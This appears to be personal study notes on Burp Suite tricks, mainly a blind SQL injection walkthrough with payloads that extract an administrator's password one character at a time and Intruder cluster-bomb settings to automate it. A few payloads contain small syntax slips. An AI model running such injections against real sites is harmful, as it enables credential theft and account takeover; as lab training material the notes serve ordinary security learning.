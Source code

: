 # Burp tricks 
## Dir Traversal 
- In Burp, change the default filtering type to expose all files, binaries, images, so we can ***SEE*** and choose an appropriate HTTP request to send to repeater/intruder.
	- Burp -> HTTP history -> Filter Settings -> FIlter by MIME type -> check all

## Blind SQL
- TCM https://www.youtube.com/watch?v=j-fLh_WNg7k&list=PLLKT__MCUeixCoi2jtP2Jj8nZzM4MOzBL&index=16
---
1. For successful HTTP request, find message for successful request, like "Welcome Back"
2. At bottom of response pane, insert 'welcome' into the finder/matching text box
3. Now, whenever we test, we'll get 1 match when our SQLi works
4. When the request is a FAILURE, there will be no matches found.
5. Much faster than scrolling through 400 lines of response window.
```bash
# enumerate character by character
`and (select 'a' from users where username='administrator')='a;

# enumerate PWD character by character
# select first character, and compare to a
' and (select substring(password 1,1) from  users where username='administrator')='a;

# select first character, and compare to b
' and (select substring(password 1,1) from  users where username='administrator')='b;

# -> send to intruder,  mark characters to be FUZZed
' and (select substring(password MARK,1) from  users where username='administrator')='MARK;
```

 - Attack type -> Cluster bomb
-  Payload set 1:  0-9, indicating a 9 character password or less
- Payload set 2:  a-z & 0-9
- Start attack!  
- Look for length, sort by length.
- Filter by search term, re-use previous term, "Welcome"
- Order by payload1, which is order of password, or position of characters in password  